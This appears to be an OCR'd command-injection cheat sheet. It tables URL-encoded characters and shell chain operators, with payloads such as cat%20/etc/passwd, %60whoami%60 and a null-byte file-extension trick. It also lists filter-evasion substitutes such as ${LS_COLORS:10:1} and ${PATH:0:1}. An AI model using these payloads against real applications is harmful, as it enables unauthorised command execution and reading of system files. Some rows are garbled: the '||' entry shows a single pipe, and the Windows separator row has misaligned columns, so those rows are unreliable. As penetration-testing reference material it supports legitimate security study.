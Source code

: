 

# Comprehensive Command Injection Reference Guide

## 1. URL Encoding Characters

| Character       | URL Encoded | Hex  | Description              | Example Usage       |
| --------------- | ----------- | ---- | ------------------------ | ------------------- |
| Space           | %20         | 0x20 | Standard space character | cat%20/etc/passwd   |
| Newline         | %0a         | 0x0a | Line feed character      | ls;%0awhoami        |
| Tab             | %09         | 0x09 | Horizontal tab           | cat%09/etc/passwd   |
| Carriage Return | %0d         | 0x0d | Return character         | ls;%0decho hello    |
| Null Byte       | %00         | 0x00 | String terminator        | file.php%00.jpg     |
| Vertical Tab    | %0b         | 0x0b | Vertical tab character   | cat%0b/etc/passwd   |
| Form Feed       | %0c         | 0x0c | Form feed character      | ls%0ctemp           |
| Back Space      | %08         | 0x08 | Backspace character      | ca%08at /etc/passwd |
| Double Quote    | %22         | 0x22 | String delimiter         | w%22h%22oami        |
| Single Quote    | %27         | 0x27 | String delimiter         | w%27h%27oami        |
| Back Tick       | %60         | 0x60 | Command substitution     | %60whoami%60        |

## 2. Command Chain Operators

| Operator | URL Encoded     | Alternative              | Description            | Example      |
| -------- | --------------- | ------------------------ | ---------------------- | ------------ |
| ;        | %3b             | ${LS_COLORS:10:1}        | Sequential execution   | ls;id        |
| \|       | %7c             | $(printf '\|')           | Pipe output            | ls\|grep txt |
| &        | %26             | $(printf '&')            | Background execution   | ls & id      |
| &&       | %26%26          | $(printf '&&')           | AND operator           | ls && id     |
| \|       | %7c%7c          | $(printf '\|')           | OR operator            | ls \| id     |
| `        | %60             | $(command)               | Command substitution   | `whoami`     |
| $()      | %24%28%29       | `command`                | Command substitution   | $(whoami)    |
| \|%5c    | ${HOMEPATH:0:1} | Path separator (Windows) | dir\temp               |              |
| /        | %2f             | ${PATH:0:1}              | Path separator (Linux) | ls/etc       |
| >        | %3e             | $(printf '>')            | Output redirection     | ls>file.txt  |
| <        | %3c             | $(printf '<')            | Input redirection      | cat<file.txt |
